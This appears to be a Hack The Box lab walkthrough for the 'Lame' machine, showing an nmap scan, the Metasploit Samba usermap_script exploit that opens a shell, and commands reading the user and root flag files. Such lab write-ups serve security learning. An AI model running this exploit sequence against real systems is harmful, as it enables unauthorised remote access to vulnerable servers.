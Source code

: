 # LAME - Machine

IP 10.10.10.3 
Easy Linux

## Contents

- [Tools](#tools)
- [Enumeration](#enumeration)
- [Exploitaton](#exploitation)
- [Walkthrough](#walkthrough)

## Tools

- nmap
- Metasploit

## Enumeration

- At first we use nmap (Network Mapping tool) to scan the box ip. When we run it we got list of some open ports and services running on those ports. On the Lame box we can see, open ports and services are, port 21 for vsftpd 2.3.4, port 22 for SSH, port 129 and 445 for Samba smbd 3.X-4.X `nmap -sV 10.10.10.3`
- When we google about those running services to gather information about those services, we get Samba smbd 3.X is vulnerable and fortunately an metasploit module is there to exploit the service.

## Exploitation

- Using metasploit we can use the exploit to shell the box.

    ```bash
    use exploit/multi/samba/usermap_script
    msf exploit(multi/samba/usermap_script) > set rhost 10.10.10.3
    msf exploit(multi/samba/usermap_script) > set lhost tun0
    msf exploit(multi/samba/usermap_script) > exploit 
    ```
  
- Now open home folder using terminal and find the user.txt.
   
  ```bash
  cd home
  ls
  cd makis
  ls
  cat user.txt
  ```

- Now goto root folder and find the root.txt.
  
  ```bash
  cd root
  ls
  cat root.txt
  ```

## Walkthrough

<a title="Lame HackTheBox 10.10.10.3 YouTube walkthrough" href="https://www.youtube.com/watch?v=sq0qVn3iLm0&list=PL6vr4adYIJuxZ6tzpWnpici8JX0sdPhwx&index=3" target="_blank">https://www.youtube.com/watch?v=sq0qVn3iLm0</a>


Author: [Zishan Ahamed Thandar](./)
